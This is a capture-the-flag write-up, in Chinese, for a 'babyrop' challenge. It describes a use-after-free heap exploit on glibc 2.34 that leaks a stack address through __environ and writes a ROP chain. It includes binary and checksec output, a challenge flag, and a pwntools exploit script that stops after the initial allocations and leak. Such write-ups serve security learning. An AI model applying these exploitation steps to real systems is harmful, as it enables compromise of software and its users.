 

### babyrop

```
// file
./babyrop: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=22e8dcbaa41a9ddd0d137d3f83de9d9eee392236, for GNU/Linux 3.2.0, not stripped

// checksec
[*] '/tmp/babyrop'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)

// glibc
GLIBC 2.34-0experimental2
```

這題要考的是在 glibc 2.34 沒有 hook 的情況下該如何做 heap exploit，UAF 的漏洞容易發現而且很好利用，而我透過 `__environ` 變數取的 stack address，並且透過 `aaw()` 寫 ROP chain 到 return address 後，exploit 如下：

```python
#!/usr/bin/python3

from pwn import *
import sys

# dice{glibc_2.34_stole_my_function_pointers-but_at_least_nobody_uses_intel_CET}
context.arch = 'amd64'
context.terminal = ['tmux', 'splitw', '-h']

if len(sys.argv) > 1:
    r = remote('mc.ax', 31245)
else:
    r = process('./B', env={"LD_PRELOAD": "./libc.so.6"})

def read(idx):
    r.sendlineafter('enter your command: ', 'R')
    r.sendlineafter('enter your index: ', str(idx))

def free(idx):
    r.sendlineafter('enter your command: ', 'F')
    r.sendlineafter('enter your index: ', str(idx))

def write(idx, data):
    r.sendlineafter('enter your command: ', 'W')
    r.sendlineafter('enter your index: ', str(idx))
    r.sendafter('enter your string: ', data)

def create(idx, l, data):
    r.sendlineafter('enter your command: ', 'C')
    r.sendlineafter('enter your index: ', str(idx))
    r.sendlineafter('How long is your safe_string: ', str(l))
    r.sendafter('enter your string: ', data)

create(0, 0x418, 'A')
create(1, 0x18, 'A')
create(2, 0x28, 'A')
free(0)
create(0, 0x418, 'A')
read(0)
r.recvline()
```